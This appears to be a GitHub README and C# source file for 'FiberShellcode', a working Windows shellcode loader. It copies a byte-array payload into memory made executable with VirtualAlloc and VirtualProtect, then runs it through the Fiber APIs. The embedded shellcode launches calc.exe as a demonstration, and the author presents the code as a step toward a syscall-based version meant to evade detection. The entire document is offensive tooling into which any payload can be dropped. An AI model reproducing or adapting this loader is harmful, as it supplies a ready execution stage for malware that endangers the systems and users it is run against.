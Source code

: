 # FiberShellcode
Execute shellcode with Fiber, basic steps before rewrite to syscall, I use csc.exe to compile.


Fiber.cs:

using System;
using System.Runtime.InteropServices;

public class code
{
    public const uint MEM_COMMIT = 0x00001000;
    public const uint MEM_RESERVE = 0x00002000;
    public const uint PAGE_EXECUTE_READWRITE = 0x40;
    public const uint GENERIC_ALL = 0x1FFFFF;
    public const uint PAGE_READWRITE = 0x04;

    [DllImport("kernel32.dll")]
    extern static IntPtr ConvertThreadToFiber(int fiberData);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateFiber(uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter);

    [DllImport("kernel32.dll")]
    extern static IntPtr SwitchToFiber(IntPtr fiberAddress);

    [DllImport("kernel32.dll")]
    extern static void DeleteFiber(IntPtr fiberAddress);

    [DllImport("kernel32")]
    private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect);

    [DllImport("Kernel32.dll", SetLastError=false)]
    static extern void RtlMoveMemory(IntPtr dest, IntPtr src, int size);


    public static void Main()
    {
          // sc shellcode pop calc
          byte[] sc = new byte[275] {  72,131,228,240,232,192,0,0,0,65,81,65,80,82,81,86,72,49,210,101,72,139,82,96,72,139,82,24,72,139,82,32,72,139,114,80,72,15,183,74,74,77,49,201,72,49,192,172,60,97,124,2,44,32,65,193,201,13,65,1,193,226,237,82,65,81,72,139,82,32,139,66,60,72,1,208,139,128,136,0,0,0,72,133,192,116,103,72,1,208,80,139,72,24,68,139,64,32,73,1,208,227,86,72,255,201,65,139,52,136,72,1,214,77,49,201,72,49,192,172,65,193,201,13,65,1,193,56,224,117,241,76,3,76,36,8,69,57,209,117,216,88,68,139,64,36,73,1,208,102,65,139,12,72,68,139,64,28,73,1,208,65,139,4,136,72,1,208,65,88,65,88,94,89,90,65,88,65,89,65,90,72,131,236,32,65,82,255,224,88,65,89,90,72,139,18,233,87,255,255,255,93,72,186,1,0,0,0,0,0,0,0,72,141,141,1,1,0,0,65,186,49,139,111,135,255,213,187,224,29,42,10,65,186,166,149,189,157,255,213,72,131,196,40,60,6,124,10,128,251,224,117,5,187,71,19,114,111,106,0,89,65,137,218,255,213,99,97,108,99,46,101,120,101,0 };
          IntPtr lpAddress = VirtualAlloc( IntPtr.Zero, (UInt32)sc.Length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
          IntPtr uPtr = Marshal.AllocHGlobal(sc.Length);
  				Marshal.Copy(sc, 0, uPtr, sc.Length);
          RtlMoveMemory( lpAddress, uPtr, sc.Length);
          uint OldProtection = 0;
          bool result = VirtualProtect( lpAddress, (UInt32)sc.Length, PAGE_EXECUTE_READWRITE, out OldProtection);
          IntPtr ThreadToFiber = ConvertThreadToFiber( 0 );
          IntPtr PtrToFiber = CreateFiber( 0, lpAddress, IntPtr.Zero );
          SwitchToFiber(PtrToFiber);
          Marshal.FreeHGlobal(uPtr);
     }
}
